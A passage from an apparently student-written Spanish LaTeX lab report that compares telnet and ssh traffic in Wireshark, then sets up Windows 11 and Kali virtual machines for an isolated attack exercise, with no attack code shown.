    
\includegraphics[width=1\textwidth]{../../Ejercicio 7/telnet_wireshark.png}
    \caption{Captura de trafico telnet con Wireshark}
    \label{fig:wireshark-telnet}
\end{figure}

Revisando uno de los paquetes capturados, vemos que el payload incluye el resultado de \texttt{uname -a}
lo cual es correcto por lo que se ejecuta desde la terminal.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{../../Ejercicio 7/tcp_stream.png}
    \caption{Revisión del payload de un paquete telnet con Wireshark}
    \label{fig:tcp-stream}
\end{figure}

Luego, haciendo la conexión por ssh desde el host a la VM Debian usando \texttt{ssh debian@192.168.1.231}
y aplicando el filtro de tráfico ssh en Wireshark, se obtiene lo siguiente:

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{../../Ejercicio 7/ssh_wireshark.png}
    \caption{Captura de tráfico ssh con Wireshark}
    \label{fig:wireshark-ssh}
\end{figure}

Aunque en primera instancia no se capturan paquetes de esta conexión, esto es de hecho el resultado esperado
ya que el tráfico ssh está cifrado, por lo que no se puede obtener información útil de este tráfico. 

Esto concuerda con las diferencias de seguridad entre \texttt{telnet}, que transmite la información en 
texto plano, y \texttt{ssh}, que cifra la información transmitida.

\section{Ejercicio 8: Un clic, una sentencia}

\begin{tcolorbox}[title=Info. VM 3]
OS: Windows 11 24H2\\
Núcleos: 4 x Intel Core i7-9750H\\
RAM: 4GB\\
IP: 192.168.1.238
\end{tcolorbox}

Lo primero que hacemos es desactivar el firewall de Windows asi como (parcialemente) Windows Defender.
Sin embargo, algunas opciones del anterior no se desactivan directamente con el segundo comando
ejecutado, por lo que es necesario revisar manualmente la configuración de Windows Defender para asegurarnos 
de que las opciones de protección en tiempo real, protección basada en la nube y envío automático de muestras 
estén desactivadas.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{../../Ejercicio 8/firewall_defender.png}
    \caption{Desactivación de Windows Defender}
    \label{fig:firewall-defender}
\end{figure}


Ahora instalamos y configuramos \texttt{ssh} en la VM de Windows desde la terminal para inicializar
desde el arranque de la VM.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{../../Ejercicio 8/ssh_win11.png}
    \caption{Instalación y configuración de ssh en Windows}
    \label{fig:sshd-windows}
\end{figure}

Hacemos lo mismo en la VM atacante de Kali:

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{../../Ejercicio 8/ssh_kali.png}
    \caption{Instalación y configuración de ssh en Kali}
    \label{fig:sshd-kali}
\end{figure}


Cambiamos las direcciones IP de ambas máquinas dentro del a misma red interna. Para
Kali se asigna la IP \texttt{10.0.0.1} y para Windows se asigna la IP \texttt{10.0.0.2}

\begin{figure}[H]
    \centering
